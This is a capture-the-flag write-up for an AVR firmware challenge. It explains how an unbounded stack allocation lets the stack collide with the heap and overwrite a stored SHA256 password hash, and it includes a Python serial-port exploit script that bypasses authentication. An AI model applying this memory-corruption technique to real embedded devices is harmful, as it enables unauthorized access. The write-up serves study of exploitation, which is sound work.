

## Unauthorized (100)

### Description

Let's do something simple. This media unit has a Wifi access point and looks like remote access is possible. But only if you know the right password.

### Write-up

This task is a little bit more interesting, it contains some control-flow integrity parts and anti fault injection counter measures, which can be nice obstacles in real firmware.



Here we can see function which takes number as parameter and returns pointer, with high probability that is *malloc*, and if we will look to [avr-libc](https://github.com/vancegroup-mirrors/avr-libc/blob/master/avr-libc/libc/stdlib/malloc.c) repository we can confirm this.

And among code in *malloc.c* we see one interesting comment:

	* Thus, all possible stack frames of interrupt routines that could
 	* interrupt the current function, plus all further nested function
 	* calls must not require more stack space, or they'll risk to collide
 	* with the data segment.

Really?

The point is that during input processing we can specify input size which is dynamically allocated on stack without any limitation, using this unsafe feature we can easily overlap stack and heap segments and overwrite stored data.

Next we should look how authentication is done, among functions code we can see quite known constants (**0x6A09E667**) which means that SHA256 is used for password verification. All user hashes is allocated on heap and have constant position after startup, also we need to know is initial stack value , for this purpose we can count stack frames from initial startup and predict heap allocator, but we no need to suffer, because we can find all this using debugger, we used Atmel AVR Studio which is quite good for such tasks.

```python
target_address=0x3023-0x22  #location of pass hash (backdoor user)
sp_base=0x3ebf 				#taked from debugger
addr_diff=sp_base-target_address

with serial.Serial('/dev/ttyUSB0',115200,timeout=1) as tty:
    tty.write("\n")
    read_until(tty,"Expected format:")
    
    n1=len(pass_hash)
    n2=addr_diff-len(str(n1))-len(":")-len(str(addr_diff))-len(":")-n1
    
    print "send payload "+str(n1)+":"+str(n2)+":"+repr(pass_hash)
    tty.write(str(n1)+":"+str(n2)+":"+pass_hash+"1\n")
    read_until(tty,"Unknown user")
    
    print "send pass: "+str(len(usrname))+":"+str(len(pasw))+":"+usrname+pasw
    tty.write(str(len(usrname))+":"+str(len(pasw))+":"+usrname+pasw+"\n")
    read_until(tty,"Your flag is")
    print tty.readline()
```

So, we just send two command, first one overwrite stored hash and second one we successfully pass crafted authentication, we have another one flag and can move on to next challenge, full script can be found among files in github repository.
